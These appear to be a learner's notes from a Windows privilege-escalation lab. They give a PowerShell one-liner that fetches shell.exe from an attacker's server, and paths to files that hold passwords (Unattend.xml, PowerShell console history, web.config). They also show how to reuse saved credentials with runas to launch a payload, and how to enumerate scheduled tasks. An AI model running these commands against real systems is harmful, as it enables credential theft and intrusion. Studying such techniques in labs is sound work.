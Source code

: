 To download "`shell.exe`" from web server
````Shell
(New-Object System.Net.WebClient).Downloadfile("http://<IP>/shell.exe","shell.exe")
````



##### looking for passwd
-   `C:\Unattend.xml`
-   `C:\Windows\Panther\Unattend.xml`
-   `C:\Windows\Panther\Unattend\Unattend.xml`
-   `C:\Windows\system32\sysprep.inf`
-   `C:\Windows\system32\sysprep\sysprep.xml`

leftovers of installation
might exist, and might contain passwords in `base64`

- `type C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` - console history
  `type` command in powershell displays content of a txt file

- `cmdkey /list` - to check if some credentials are saved
`runas /savedcred /user:OTHER_USER cmd.exe` - open `cmd` of other user with creds above probably better to use `powershell.exe` AND you can also use some payload that way (e.g. from `OTHER_USER` `C:\Windows\Temp`)

Web servers also might store passwds (e.g. for `db`s):
-   `C:\...\inetpub\wwwroot\web.config`
-   `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
``` fragment_with_pass
 <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>
```

##### tasks

`schtasks` - list alltasks
look for user-configurated ones

`schtasks /query /tn NAME_OF_TASK_TO_FIND /fo list /v`
here we're looking at task `vulntask`
```
Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        8/27/2022 10:47:20 AM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
```